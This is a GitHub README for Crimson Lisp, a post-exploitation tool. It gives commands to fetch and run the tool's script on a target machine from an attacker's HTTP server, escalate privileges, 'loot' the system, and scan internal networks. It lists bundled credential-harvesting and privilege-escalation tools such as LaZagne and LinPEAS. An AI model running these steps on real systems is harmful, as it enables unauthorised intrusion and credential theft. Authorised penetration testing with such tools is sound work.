 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_lisp.git
```
If hosted from Windows, convert the line endings of the script file from Windows-style (CRLF) to Unix-style (LF):
```
dos2unix tools/les.sh tools/linpeas.sh lisp.sh
```
Using VScode:
```
1. Open the script file in Visual Studio Code.
2. Look at the bottom right corner of the editor. You should see a label that displays the current line endings used in the file. It should either say "CRLF" or "LF".
3. Click on the label and select "LF". This will change the line endings of the file to Unix-style.
4. Save the file by going to File > Save.
```
# Usage
## ON THE HOST MACHINE
```bash
cd crimson_lisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE 
### 1. DOWNLOAD THE TOOLS
```bash
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"
```
### 2. ESCALATE THE PRIVILEGES
```bash
./lisp.sh -e
```
### 3. LOOT THE SYSTEM
```bash
sudo ./lisp.sh -l
```
### 4. NETWORK DISCOVERY (as root)
#### 4.1. PING SWEEP
```bash
./nping INTERNAL_IP/24
```
#### 4.2. NMAP SCAN
```bash
./run-nmap.sh -Pn INTERNAL_IP -p- --append-output -oA all_ports_scan
```
#### 4.3 TOP PORTS SCAN
```bash
./run-nmap.sh -Pn 172.22.11.1/24 --top-ports 1000 --append-output -oA AD_ports
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)
* [3snake](https://github.com/blendin/3snake)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>
